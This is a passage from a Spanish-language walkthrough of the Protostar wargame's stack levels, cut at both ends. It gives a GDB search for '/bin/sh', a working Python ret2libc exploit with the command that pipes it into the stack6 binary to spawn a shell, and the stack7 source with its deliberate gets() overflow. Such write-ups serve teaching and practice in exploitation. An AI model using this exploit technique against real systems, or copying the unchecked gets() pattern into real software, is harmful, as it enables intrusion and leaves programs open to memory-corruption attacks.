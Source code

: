```
}
```

GDB:

```
find 0xb7e97000, +9999999, "/bin/sh" # Para encontrar la cadena "/bin/sh"
```
El exploit en Python:

```
import struct

libc_base_address = 0xb7e97000

system_offset = 0x038fb0 
exit_offset = 0x0002f0c0 
binsh_offset = 0x11f3bf

system_dir = struct.pack("I", system_offset + libc_base_address)
exit_dir = struct.pack("I", exit_offset + libc_base_address)
binsh_dir = struct.pack("I", binsh_offset + libc_base_address )


junk = 'A'*80

payload = junk + system_dir + exit_dir + binsh_dir

print payload
```
Finalmente, para ejecutar el exploit vamos a utilizar un pequeño truco con «cat» para que la salida del programa no finalice inmediatamente:

```
(python exploit.py; cat) | /opt/protostar/bin/stack6
```

## Stack 7
Código fuente:

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

```